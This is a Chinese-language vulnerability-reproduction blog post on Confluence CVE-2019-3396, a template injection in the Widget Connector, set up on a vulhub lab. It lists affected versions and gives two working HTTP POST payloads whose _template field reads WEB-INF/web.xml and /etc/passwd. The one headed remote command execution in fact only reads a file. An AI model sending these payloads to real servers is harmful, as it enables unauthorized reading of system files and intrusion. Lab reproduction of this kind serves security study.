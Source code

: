 ```yaml
---
layout:     post
title:      【漏洞复现】confluence远程代码执行漏洞(CVE-2019-3396)
subtitle:   远程代码执行漏洞
date:       2020-11-11
author:     matrix
header-img: img/websecurity.jpeg
catalog: true
tags:
    - 漏洞复现
    - 远程代码执行漏洞
---
```

## 0x00 漏洞说明
Confluence是一个专业的企业知识管理与协同软件，常用于构建企业wiki。它强大的编辑和站点管理特征能够帮助团队成员之间共享信息、文档协作、集体讨论，信息推送。其中Confluence Server和Data Center产品中使用的小工具连接器widgetconnecter组件（版本<=3.1.3）中存在服务器端模板注入漏洞（SSTI）。
攻击者可利用该漏洞对系统进行路径遍历、服务端请求伪造（SSRF）、远程代码执行（RCE）
## 0x01 影响版本
### 产品
Confluence Server
Confluence Data Center
2.0.0 <= version < 6.6.13
6.7.0 <= version < 6.12.4
6.13.0 <= version < 6.13.4
6.14.0 <= version < 6.14.3
6.15.0 <= version < 6.15.2
### 组件
widgetconnector
version <= 3.1.3## 0x02 复现环境
vulhub
## 0x03 漏洞复现
### 0、环境搭建
docker-compose up -d
![-c1596](/img/16050835682883.jpg)
![-c1621](/img/16050838207076.jpg)

serverID:B57H-6NLA-AC9K-HXR7
![-c1139](/img/16050840799162.jpg)
![-c1146](/img/16050841402196.jpg)
![-c705](/img/16050857569665.jpg)
![-c820](/img/16050873798223.jpg)
![-c1791](/img/16050878611758.jpg)
### 1、漏洞利用
#### 本地文件读取
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.32.112.95:8090
Content-Type: application/json
Referer: http://10.32.112.95:8090/
Content-Length: 171

{"contentId":"0","macro":{"name":"widget","body":"","params":{"url":"metacafe.com","width":"300","height":"200","_template":"WEB-INF/web.xml"}}}
```
![-c1786](/img/16051456167539.jpg)
#### 远程命令执行
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.32.112.95:8090
Content-Type: application/json
Referer: http://10.32.112.95:8090/
Content-Length: 147

{"contentId":"0","macro":{"name":"widget","body":"","params":{"url":"metacafe.com","width":"300","height":"200","_template":"file:///etc/passwd"}}}
```
![-c1786](/img/16051470391309.jpg)


